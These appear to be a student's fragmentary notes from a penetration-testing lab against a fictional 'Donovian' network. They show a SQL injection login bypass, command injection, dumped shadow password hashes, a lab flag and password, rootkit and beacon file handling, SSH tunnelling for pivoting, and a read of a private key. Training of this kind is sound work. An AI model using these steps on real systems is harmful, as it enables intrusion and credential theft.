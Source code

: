 Target Section:

T1
Hostname: Donovian_Extranet
IP: 192.168.28.100
OS: CentOS
Creds:Unknown
Last Known SSH Port: 2222
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.

T3
Hostname: unknown
IP: x.x.x.9
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Gain access; survey host and map Donovian internal Cyberspace.



make a tunnel to port 80
open firefox
/admin/admin.php
sql injection
un: admin
pw: ' OR '1'='1
; ls -lisa /x/x/x/

cat /etc/hosts
see intranet is 192.168.150.253

Host is up (0.0018s latency).
Not shown: 9997 closed ports
PORT     STATE SERVICE
80/tcp   open  http
514/tcp  open  shell
3201/tcp open  cpq-tasksmart ssh !!!!!!!!!!!

root:$6$V9apEU0x$cKDuPz59hBr48Qj6mnL0w5nuEddjzNEoHqfVY2pKs4VqqHqarZ1F9nCIaOsk7NvqIKrybd6OFFSnQXMjoT4aO1:19481:0:99999:7:::
ubuntu:!:19481:0:99999:7:::
comrade:$6$TWu7qH0m$CX3CNvgib3ksGe6TxlHWjKiM3AE.Azur7lGtCU2QZJlBb2Do3YBjswJ0Zy2q9.xc2sJEofW38lJuGU1uLcInU1:19481:0:99999:7:::
#F1aG = FDxVuQ3RCdXQvDlQI4bM

comrade::StudentMidwayPassword



comrade@lin:~$ sudo cat /root/brootkit/brootkit-master/br.conf


comrade@lin:~$ cat /usr/share/terminfo/b/beacon | openssl enc -d -base64 -aes-128-ctr -nopad -nosalt -k password.txt
??


   85  cat /etc/rkhunter.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 
   68  ls -la /etc/rsyslog.d/50-default.conf 



student@lin-ops:~$ ssh -MS /tmp/www-datahost www-data@0.0.0.0 -p 1460
student@lin-ops:~$ ssh -S /tmp/www-datahost www-data -O forward -L 1463:192.168.150.253:3201
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1460:192.168.28.100:2222
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1461:192.168.28.100:80
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -D9050
student@lin-ops:~$ ssh -S /tmp/gray gray -O cancel -D9050
main ms



![image](https://github.com/hannahsfrommt/Security/assets/140441321/931711e5-1567-49c3-8fb6-711f3826f61d)
![image](https://github.com/hannahsfrommt/Security/assets/140441321/b641be6c-fcd2-459d-851e-38f98a6bb487)
![image](https://github.com/hannahsfrommt/Security/assets/140441321/048e78fd-d4ae-4606-bd47-b4cf4329c25a)




student@lin-ops:~$ cat /tmp/.ssh/id_rsa
